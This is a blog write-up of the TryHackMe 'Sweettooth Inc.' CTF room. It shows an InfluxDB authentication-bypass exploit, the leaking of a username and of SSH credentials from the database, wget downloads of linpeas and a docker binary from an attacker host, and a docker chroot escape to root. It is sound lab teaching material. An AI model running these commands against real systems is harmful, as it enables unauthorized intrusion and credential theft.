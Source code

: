 ```yaml
---
layout: post
title:  "Sweettooth Inc. Writeup"
date:   2024-05-23 13:15:45 -0400
categories: tryhackme medium
tags: writeup tryhackme medium CTF
---
```

## Introduction
This is a medium challenge box on 
[TryHackMe](https://tryhackme.com/r/room/sweettoothinc){:target="_blank"}{:rel="noopener noreferrer"}
> This is what a hint will look like!

## Enumeration

### Ports
As always let's run a few scans to see what ports are 
open and what services are running

#### Rustscan
[Rustscan](https://github.com/RustScan/RustScan){:target="_blank"}{:rel="noopener noreferrer"}
is a helpful port scanner that runs faster than a full
nmap scan

```bash
rustscan -a VICTIM_IP
```

![rust-scan](/images/sweettooth-inc/rustscan.png)

#### Nmap
We have 4 ports open so let's run some scripts against
them

```bash
nmap -A -p111,2222,8086,58425 -T4 -vv -oA ports VICTIM_IP
```

![nmap-scan](/images/sweettooth-inc/nmap.png)

There are 2 ports to take note of

- 2222: SSH
- 8086: HTTP

## Initial Foothold
> Search the internet for exploits with the running 
services and versions

According to our scan, port 8086 is running InfluxDB
version 1.3.0. Let's search the internet for some exploits

### Authentication Bypass
One of the first results is 
[CVE-2019-20933](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933){:target="_blank"}{:rel="noopener noreferrer"}
which is an authentication bypass vulnerability in 
InfluxDB < 1.7.6. Version 1.3.0 fulfills that 
requirement so let's try this out!

```bash
git clone https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933
cd InfluxDB-Exploit-CVE-2019-20933
pip3 install -r requirements.txt
python3 __main__.py
```

![influx-roadblock](/images/sweettooth-inc/influx-roadblock.png)

Oh no, we don't know the username! We could brute 
force usernames in the background but that won't be 
necessary. There is another way

### Username
> You don't need to brute force. Keep searching the 
> internet for exploits with the specific version

Continuing our public exploit search, we find an interesting 
[blog post](https://www.komodosec.com/post/when-all-else-fails-find-a-0-day){:target="_blank"}{:rel="noopener noreferrer"}.
By visiting `<IP>:8086/debug/requests`  a username on the system is leaked!

![username-leak](/images/sweettooth-inc/username-leak.png)

### Database
> Did you leak everything from the database?

We have a username to bypass authentication with, so 
let's leak some data. Connect to the database with the 
previous authentication bypass exploit

```bash
python3 __main__.py
```
On the database screen type the name you want to use. 
Remember you can use `.back`  to change databases. Table 
and column names can be listed with the command

```sql
show field keys
```

Getting all data entries for a table is in the format

```sql
select * from table_name
```

We're asked two questions to leak database information. 
First we need to convert the given UTC Unix Timestamp to 
something more... readable. I used 
[this converter](https://epochtimestamp.com/){:target="_blank"}{:rel="noopener noreferrer"}
and sifted through the entries. We're looking for a 
temperature similar to the time 
`2021-05-18T10:00:00-04:00`

```sql
tanks
show field keys
select temperature from water_tank
```

![water-temp](/images/sweettooth-inc/water-temp.png)

Next we need to find the highest rpm for the mixer. 
Switch databases and sift through the entries again

```sql
.back
mixer
show field keys
select field_rpm from mixer_stats
```

![motor-rpm](/images/sweettooth-inc/motor-rpm.png)

The same process can be done to leak ssh credentials

```sql
.back
creds
show field keys
select * from ssh
```

![db-ssh](/images/sweettooth-inc/database-ssh2.png)

Let's use these ssh credentials. 
Remember from our scan that ssh is on port 2222!

```bash
ssh user@VICTIM_IP -p 2222
```

## Privilege Escalation
> linpeas will nudge you in the right direction

### linpeas
Upload the privesc script
[linpeas.sh](https://github.com/peass-ng/PEASS-ng){:target="_blank"}{:rel="noopener noreferrer"}
so we can find an avenue to escalate our privileges

```bash
# Attacker machine, in a directory with linpeas.sh
python3 -m http.server 80

# Victim machine
wget http://YOUR_IP/linpeas.sh
sh linpeas.sh
```

![docker-linpeas](/images/sweettooth-inc/docker-linpeas.png)

> User essentially has docker privileges without 
> the docker binary

`/run/docker.sock` is writable, meaning we have docker 
privileges! We can escape and elevate our privileges 
but there's one problem...

![docker-mising](/images/sweettooth-inc/docker-missing.png)

The docker binary is missing!

Normally we can install packages on Debian based systems 
with the command

```bash
sudo apt-get install <package-name> 
```

But if we could use sudo, we wouldn't have this issue in 
the first place

> If we had the docker binary available, 
> we could escalate our privileges...

Thankfully we can download the
[docker binary directly](https://download.docker.com/linux/static/stable/x86_64/){:target="_blank"}{:rel="noopener noreferrer"}!
Let's upload docker and try it out

### Docker Upload
```bash
# Attacker machine, in a directory with the docker file
python3 -m http.server 80

# Victim machine
wget http://YOUR_IP/docker-17.03.0-ce.tgz
tar xf docker-17.03.0-ce.tgz
cd docker
./docker images
```
![docker-test](/images/sweettooth-inc/docker-test.png)

Everything works, so let's elevate our privileges

## Root
> Is there a GTFO bin for docker?
[GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell){:target="_blank"}{:rel="noopener noreferrer"}
has an entry for creating a shell with docker

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Let's just replace alpine with a docker image we have 
access to and run the local docker binary

```bash
./docker run -v /:/mnt --rm -it influxdb:1.3.0 chroot /mnt sh
```

Root shell! Funnily enough we're already root on the host 
instead of the container. We've achieved our goal so 
let's get the remaining flags

```bash
find / -type f -name "*root.txt*" -ls 2>/dev/null
```

```bash
280243  4 -rw-r--r-- 1 root root  22 May 15  2021 /root/root.txt
  1700  4 -rw-r--r-- 1 root root  22 May 18  2021 /var/lib/docker/aufs/mnt/33d446f7c7981fe737a399371821828a94aedd9af216ca12a0845a4818a48c6c/root/root.txt
927203  4 -rw-r--r-- 1 root root  22 May 18  2021 /var/lib/docker/aufs/diff/20629420626c70a9bdf5807427da0badebc8e5d842cb82ae3ff83822b18c9e2a/root/root.txt
```

## Recap
A vulnerable version of InfluxDB leads to leaking a 
username as well as an authentication bypass. Database 
access leaks ssh credentials and provides a foothold into 
a docker container. We essentially have docker privileges 
since docker.sock is writable, but the docker binary is 
not available. Uploading the binary and using the docker 
gtfobin gives root.
